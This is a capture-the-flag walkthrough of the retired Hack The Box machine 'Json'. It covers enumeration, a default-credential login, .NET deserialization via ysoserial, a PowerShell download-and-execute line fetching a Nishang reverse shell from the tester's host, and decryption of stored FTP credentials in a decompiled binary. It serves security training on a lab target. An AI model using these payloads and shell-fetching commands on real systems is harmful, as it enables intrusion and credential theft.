



# Json

This is the write-up for the box Json that got retired at the 15th February 2020.
My IP address was 10.10.14.5 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.158    json.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/json.nmap 10.10.10.158
```

```
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          FileZilla ftpd
| ftp-syst:
|_  SYST: UNIX emulated by FileZilla
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Json HTB
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

The web page forwards to _login.html_ and shows a custom login page for **Hack The Box**:



After trying some default credentials, the login with _admin:admin_ works and forwards to a dashboard, where none of the links in the menu are functional.

The login uses the path _/api/token_ and sets a cookie called _OAuth2_ with **JSON** content:
```
echo eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0= | base64 -d
```
```
{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3","Name":"User Admin HTB","Rol":"Administrator"}
```

The MD5 hash is decoded to _admin_, which was guessed before.
When refreshing the page and looking at the connections with the _Developer Tools_ in any browser, there is a connection attempt to _/api/Account_.
After browsing there, it is a valid path that needs authorization:
```
<Error>
<Message>Authorization has been denied for this request.</Message>
</Error>
```

This request can be analyzed with any proxy tool like **Burpsuite** and the initial request shows that a HTTP header called _Bearer_ is set, that contains the same information as the _Cookie_ header:
```
GET /api/Account/ HTTP/1.1
Host: 10.10.10.158
(...)
Bearer: eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=
(...)
```

After sending a random string in the _Bearer_ header, the response shows an interesting error message:
```
GET /api/Account/ HTTP/1.1
(...)
Bearer: RandomString
```
```
{
  "Message":"An error has occurred.",
  "ExceptionMessage":"Cannot deserialize Json.Net Object",
  "ExceptionType":"System.Exception",
  "StackTrace":null
}
```

This web server may be vulnerable to **.NET Deserialization** and to exploit such a vulnerability, I will use the tool [ysoserial](https://github.com/pwntester/ysoserial.net).
As this is a Windows tool, the payload will be created from a Windows client.

Creating .NET Payload:
```
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "ping -n 1 10.10.14.5" -o base64
```

Base64-decoded payload:
```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c ping -n 1 10.10.14.5']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

Sending the Base64-encoded payload in the HTTP request:
```
GET /api/Account/ HTTP/1.1
(...)
Bearer: ew0KICAgICckdHlwZSc6J1N5c3RlbS5XaW5kb3dzLkRhdGEuT2JqZWN0RGF0YVByb(...)
(...)
```

After sending the request, the `tcpdump` listener on my client will receive an ICMP packet and proofs command execution.
Lets send a command that downloads a PowerShell script from our client.

Base64-encoding the command to upload a shell script:
```
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0; echo
```

The _shell.ps1_ script will be the _Invoke-PowerShellTcp.ps1_ from the **Nishang** scripts.

Creating new .NET payload to run the Base64-encoded command:
```
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADUALwBzAGgAZQBsAGwALgBwAHMAMQAnACkA" -o base64
```

Sending the Base64-encoded payload in the HTTP request:
```
GET /api/Account/ HTTP/1.1
(...)
Bearer:
ew0KICAgICckdHlwZSc6J1N5c3RlbS5XaW5kb3dzLkRhdGEuT2JqZWN0RGF0YV(...)
(...)
```

After sending the request, the script _shell.ps1_ will be executed and the listener on my IP and port 9001 starts a reverse shell as the user _userpool_.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Windows Enumeration Script**.

Starting an SMB server:
```
impacket-smbserver -username tester -password TestPass321 share $(pwd)
```

Creating a new drive to upload and download files:
```
$pass = "TestPass321" | ConvertTo-SecureString -AsPlainText -Force
$cred = New-Object System.Management.Automation.PsCredential('tester', $pass)
New-PsDrive -name share -root \\10.10.14.5\share -Credential $cred -PSProvider "filesystem"
```

Accessing the share and running **winPEAS**:
```
cd share:

.\winPEAS.exe
```

A program called **Sync2Ftp** is installed in _C:\Program Files\Sync2Ftp_ and in the directory are two files that we can copy to our local client to analyze them:
```
copy SyncLocation.exe share:
copy SyncLocation.exe.config share:
```

The configuration file _SyncLocation.exe.config_ contains credentials:
```
<appSettings>
    <add key="destinationFolder" value="ftp://localhost/"/>
    <add key="sourcefolder" value="C:\inetpub\wwwroot\jsonapp\Files"/>
    <add key="user" value="4as8gqENn26uTs9srvQLyg=="/>
    <add key="minute" value="30"/>
    <add key="password" value="oQ5iORgUrswNRsJKH9VaCw=="></add>
    <add key="SecurityKey" value="_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%"/>
</appSettings>

<supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.7.2"
```

Both Base64 values are not readable, so the software does some kind of decoding or encryption.
As it is a **.NET binary**, it can be decompiled on a Windows client with [dnSpy](https://github.com/dnSpy/dnSpy).

After opening it, the variables for the username and password are found in the _Copy()_ function:
```
SyncLocation --> Service1 --> Copy()
```
```
string path = ConfigurationManager.AppSettings["destinationFolder"];
string text = ConfigurationManager.AppSettings["sourcefolder"];
string cipherString = ConfigurationManager.AppSettings["user"];
string cipherString2 = ConfigurationManager.AppSettings["password"];
string userName = Crypto.Decrypt(cipherString, true);
string password = Crypto.Decrypt(cipherString2, true);
```

By outputting the variables before the program starts, it is possible to display the values for these.

Editing the _Main() method_ to print the values upon execution:
```
SyncLocation --> Program --> Main()
```
```
Right click --> Edit Method (C#)
```



After pressing _Compile_ and then saving the file, the binary can be executed and it displays a windows with the credentials:



```
superadmin:funnyhtb
```

As the service is called _Sync2Ftp_, the credentials may work on the FTP service:
```
ftp 10.10.10.158

Connected to 10.10.10.158.                                                                         
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (10.10.10.158:root): superadmin
331 Password required for superadmin
Password:
230 Logged on
```

It works and the home directory of _superadmin_ is accessible from the FTP service and _root.txt_ can be downloaded!

> NOTE: Unfortunately the user has no permissions to use PowerShell remoting and also switching users is not possible.
